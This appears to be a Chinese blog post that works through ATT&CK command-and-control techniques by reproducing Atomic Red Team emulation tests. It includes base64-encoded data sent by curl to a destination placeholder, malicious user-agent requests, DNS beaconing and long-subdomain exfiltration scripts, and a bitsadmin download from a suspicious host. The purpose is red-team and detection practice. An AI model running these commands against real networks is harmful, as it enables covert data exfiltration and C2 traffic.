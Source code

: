 ```yaml
---
layout: post
title: 跟着ATT&CK学安全之command-and-control
excerpt: "跟着ATT&CK学安全之command-and-control"
categories: [ATT&CK]
comments: true
---
```

#### 解决无法加载文件 xxxx，因为在此系统上禁止运行脚本
若要在本地计算机上运行您编写的未签名脚本和来自其他用户的签名脚本，请使用以下命令将计算机上的 执行策略更改为 RemoteSigned
```
set-ExecutionPolicy RemoteSigned
```
查看
```
get-ExecutionPolicy
```
#### T1132 - Data Encoding
通常控制命令使用标准的编码进行相互通信
```bash
echo -n 111-11-1111 | base64
curl -XPOST #{base64_data}.#{destination_url}
```
成功复现
### T1071 - Standard Application Layer Protocol
##### 测试1 Malicious User Agents - Powershell
就是一个http请求,通过UserAgent来传输信息,在powershell下运行
```bash
Invoke-WebRequest #{domain} -UserAgent "HttpBrowser/1.0" | out-null
Invoke-WebRequest #{domain} -UserAgent "Wget/1.9+cvs-stable (Red Hat modified)" | out-null
Invoke-WebRequest #{domain} -UserAgent "Opera/8.81 (Windows NT 6.0; U; en)" | out-null
Invoke-WebRequest #{domain} -UserAgent "*<|>*" | out-null
```
成功复现
##### 测试2 Malicious User Agents - CMD
就是一个http请求,通过UserAgent来传输信息,在cmd下运行
```bash
curl -s -A "HttpBrowser/1.0" -m3 #{domain}
curl -s -A "Wget/1.9+cvs-stable (Red Hat modified)" -m3 #{domain}
curl -s -A "Opera/8.81 (Windows NT 6.0; U; en)" -m3 #{domain}
curl -s -A "*<|>*" -m3 #{domain}
```
成功复现
##### 测试3 Malicious User Agents - Nix
就是一个http请求,通过UserAgent来传输信息,操作平台:linux
```bash
curl -s -A "HttpBrowser/1.0" -m3 #{domain}
curl -s -A "Wget/1.9+cvs-stable (Red Hat modified)" -m3 #{domain}
curl -s -A "Opera/8.81 (Windows NT 6.0; U; en)" -m3 #{domain}
curl -s -A "*<|>*" -m3 #{domain}
```
成功复现
##### 测试4 DNS Large Query Volume
就是大量的dns请求来传输信息

输入参数
```
--------------------------------------------------------------------------------------
Name  	|	Description  							|	Type  	|	Default Value
--------------------------------------------------------------------------------------
domain  |	Default domain to simulate against 		|	string 	|	example.com
--------------------------------------------------------------------------------------
subdomain 	Subdomain prepended to the domain name	| 	string 	|	atomicredteam
--------------------------------------------------------------------------------------
query_type 	DNS query type 							|	string 	|	TXT				
--------------------------------------------------------------------------------------
query_volume 	Number of DNS queries to send 		|	integer |	1000
--------------------------------------------------------------------------------------
```
powershell中运行
```bash
for($i=0; $i -le #{query_volume}; $i++) { Resolve-DnsName -type "#{query_type}" "#{subdomain}.$(Get-Random -Minimum 1 -Maximum 999999).#{domain}" -QuickTimeout}
```
例如
```bash
for($i=0; $i -le 1000; $i++) { Resolve-DnsName -type "TXT" "atomicredteam.$(Get-Random -Minimum 1 -Maximum 999999).snappyzz.com" -QuickTimeout}
```
成功复现
#### 测试5 DNS Regular Beaconing
```
.\T1071-dns-beacon.ps1  -Domain snappyzz.com -Subdomain subaaaa -QueryType TXT -C2Interval 30 -C2Jitter 20 -RunTime 30
```
成功复现
##### 测试6 DNS Long Domain Query
通过子域名传输数据,不断的发送更长的域名长度,来测试蓝队的防守.在powershell中运行
```
.\T1071-dns-domain-length.ps1 -Domain snappyzz.com -Subdomain aaaaaaaaaaaaaaaaaaaaaaaaa -QueryType TXT
```
成功复现
### T1065 - Uncommonly Used Port
就是使用不常用的端口进行通信
##### 测试1 Testing usage of uncommonly used port with PowerShell
在powershell中运行
```bash
test-netconnection -ComputerName snappyzz.com -port 80
```
成功复现
##### 测试2 Testing usage of uncommonly used port
测试平台:linux
```bash
telnet snappyzz.com 80
```
成功复现
### T1102 - Web Service

##### 测试1 Reach out to C2 Pointer URLs via command_prompt
```
bitsadmin.exe /transfer "DonwloadFile" http://www.stealmylogin.com/ %TEMP%\bitsadmindownload.html
```
成功复现
##### 测试2 Reach out to C2 Pointer URLs via powershell
在powershell中运行
```
Invoke-WebRequest -Uri www.twitter.com
$T1102 = (New-Object System.Net.WebClient).DownloadData("https://www.reddit.com/")
$wc = New-Object System.Net.WebClient
$T1102 = $wc.DownloadString("https://www.aol.com/")
```
成功复现